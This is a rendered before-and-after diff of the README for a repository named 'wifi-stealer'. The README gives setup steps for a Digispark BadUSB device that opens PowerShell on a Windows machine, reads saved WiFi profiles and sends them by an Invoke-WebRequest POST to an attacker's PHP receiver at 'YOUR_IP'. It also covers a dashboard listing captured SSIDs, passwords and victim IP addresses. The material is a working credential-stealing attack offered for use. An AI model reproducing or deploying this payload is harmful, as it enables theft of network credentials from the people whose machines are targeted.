

Before and after one commit to Zypher17/wifi-stealer, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -53,7 +53,7 @@ curl -X POST http://localhost/wifi-recv.php -d "data=test"
 cat /var/www/html/wifi_creds.log
 ```
 
-If you see `test` in the output, the server is working.
+If you see `data=test` in the output, the server is working.[web:6]
 
 Open:
 
@@ -145,21 +145,23 @@ payloads/wifi_stealer_digispark.ino
 
 ```cpp
 DigiKeyboard.print(
-  F("Invoke-WebRequest -UseBasicParsing -Uri 'http://192.168.1.8/wifi-recv.php' -Method POST -Body $b")
+  F("Invoke-WebRequest -UseBasicParsing -Uri 'http://YOUR_IP/wifi-recv.php' -Method POST -Body $b")
 );
 ```
 
-Change `192.168.1.8` to the IP of your Kali or Windows server.
+Change `YOUR_IP` to the IP of your Kali or Windows server.
 
 3. Click **Upload**.
 4. When Arduino IDE says `Plug in device now...`, plug in the Digispark.
 5. Wait for the upload to finish.
 
 After flashing, plugging the Digispark into a Windows machine will:
+
 - Open PowerShell.
 - Read saved WiFi profiles.
 - Send the captured data to your PHP receiver.
 - Close out when finished.
+- Blink the onboard LED to signal it’s done.
 
 ---
 
@@ -174,10 +176,11 @@ wifi_creds.log
 The dashboard is available at:
 
 ```text
-http://YOUR_SERVER_IP/index.php
+http://YOUR_IP/index.php
 ```
 
 The dashboard shows:
+
 - Total number of captures.
 - SSIDs and passwords.
 - Victim IP address.
````
Also changed, not shown: other parts of README.md (+163 -18 lines).
